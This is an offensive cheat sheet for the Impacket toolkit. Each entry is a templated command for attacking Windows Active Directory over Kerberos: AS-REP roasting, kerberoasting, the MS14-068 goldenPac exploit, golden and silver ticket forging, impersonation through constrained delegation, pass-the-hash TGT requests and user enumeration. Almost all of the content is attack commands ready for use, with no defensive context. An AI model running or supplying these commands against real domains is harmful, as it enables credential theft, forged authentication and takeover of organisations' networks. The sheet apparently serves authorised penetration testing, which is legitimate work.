 # Impacket

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT (ASREPRoasting)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
impacket-GetNPUsers <domain>/<user> -no-pass -request -format hashcat
```

## find delegation
#plateform/linux #target/remote #cat/RECON
```
impacket-findDelegation -dc-ip <dc_ip> ' <domain>/<user>:<password>'
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’ (ASREPRoasting)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
impacket-GetNPUsers -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account (kerberoasting)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
impacket-GetUserSPNs -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
impacket-goldenPac -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
impacket-ticketer -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## Ticketer - (silver ticket) - generate TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
impacket-ticketer -nthash <nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
#plateform/linux #target/local  #cat/UTILS
```
impacket-ticketConverter <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impersonate user
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
impacket-getST -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## Constrained deleg w/ protocol transition - impersonate user
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
impacket-getST -dc-ip <dc_ip> -spn cifs/<target> '<domain>/<user>:<password>' -impersonate <admin>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
#plateform/linux #target/remote  #cat/UTILS
```
impacket-getTGT -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
#plateform/linux #target/remote  #cat/RECON 
```
impacket-GetADUsers -all <domain>/<user>:<password> -dc-ip <dc_ip>
```
